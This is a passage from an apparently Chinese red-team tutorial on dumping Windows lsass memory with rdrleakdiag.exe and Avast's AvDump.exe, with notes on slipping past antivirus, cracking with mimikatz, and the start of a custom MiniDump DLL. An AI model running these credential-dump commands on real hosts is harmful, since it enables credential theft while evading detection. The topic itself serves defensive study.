 ### rdleakdiag.exe

默认存在的系统：

Windows 10 Windows 8.1 Windows 8 Windows7 windows Vista  
软件版本 10.0.15063.0 6.3.9600.17415 6.2.9200.16384 6.1.7600.16385 6.0.6001.18000  
没有的情况可以选择传一个上去。  
![](https://shs3.b.qianxin.com/attack_forum/attach-3dea37cad4e202ecad55f.png)  
生成dmp内存文件

```php
rdrleakdiag.exe /p <pid> /o <outputdir> /fullmemdmp /wait 1 Rst
```

会产生两个文件，results*+进程pid+.hlk，minidump*+进程pid+.dmp。然后同样使用mimikatz进行破解。

### AvDump.exe

AvDump.exe是Avast杀毒软件中自带的一个程序，可用于转储指定进程（lsass.exe）内存数据，它带有Avast杀软数字签名。所以一般不会被av查杀。  
下载地址：<https://www.pconlife.com/viewfileinfo/avdump64-exe/#fileinfoDownloadSaveInfodivGoto2>  
需要在ps中调用，否则cmd默认是不开启seDEBUGPrivilege权限的，但是现在360会检测到avdump.

```php
.\AvDump.exe --pid <lsass pid> --exception_ptr 0 --thread_id 0 --dump_level 1 --dump_file C:\Users\admin\Desktop\lsass.dmp --min_interval 0
```

但也是会被360查杀。

自主编写dll
-------

### 调用APIMiniDump的一个demo

这里涉及到windows进程编程，可以先看看如何遍历windows下的进程。遍历进程需要几个API和一个结构体。

```php
​ 1.创建进程快照
​ 2.初始化第一个要遍历的进程
​ 3.继续下次遍历
​ 4.进程信息结构体
```

创建进程使用`CreateToolhelp32Snapshot`

```c
HANDLE WINAPI CreateToolhelp32Snapshot(
DWORD dwFlags, //用来指定“快照”中需要返回的对象，可以是TH32CS_SNAPPROCESS等
DWORD th32ProcessID //一个进程ID号，用来指定要获取哪一个进程的快照，当获取系统进程列表或获取 当前进程快照时可以设为0
);
```

获取第一个进程句柄使用`Process32First`

```c
BOOL WINAPI Process32First(
    HANDLE hSnapshot,//_in，进程快照句柄
    LPPROCESSENTRY32 lppe//_out，传入进程信息结构体,系统帮你填写.
);
```
